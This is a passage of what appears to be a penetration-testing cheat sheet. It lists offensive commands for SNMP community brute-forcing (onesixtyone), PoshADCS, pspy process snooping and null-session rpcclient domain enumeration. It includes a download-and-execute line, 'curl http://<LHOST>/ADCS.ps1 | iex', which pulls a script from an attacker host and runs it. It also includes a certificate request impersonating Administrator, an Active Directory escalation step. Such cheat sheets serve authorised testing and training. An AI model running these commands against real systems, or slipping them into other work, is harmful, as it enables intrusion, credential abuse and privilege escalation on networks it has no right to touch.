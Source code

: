 ```c
$ onesixtyone -i snmp-ips.txt -c community.txt
```

## PoshADCS

>  https://github.com/cfalta/PoshADCS/blob/master/ADCS.ps1

```c
PS C:\> curl http://<LHOST>/ADCS.ps1 | iex
PS C:\> Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard -Verbose
PS C:\> gci cert:\currentuser\my -recurse
```

## pspy

>  https://github.com/DominicBreuker/pspy

```c
$ pspy64 -f
$ pspy64 -pf -i 1000
```

## rpclient

### LDAP

```c
$ rpcclient -U "" <RHOST>
```

#### Queries

```c
srvinfo
netshareenum
netshareenumall
netsharegetinfo
netfileenum
netsessenum
netdiskenum
netconnenum
getanydcname
getdcname
dsr_getdcname
dsr_getdcnameex
dsr_getdcnameex2
dsr_getsitename
enumdomusers
enumdata
enumjobs
enumports
enumprivs
queryuser <USERNAME>
```
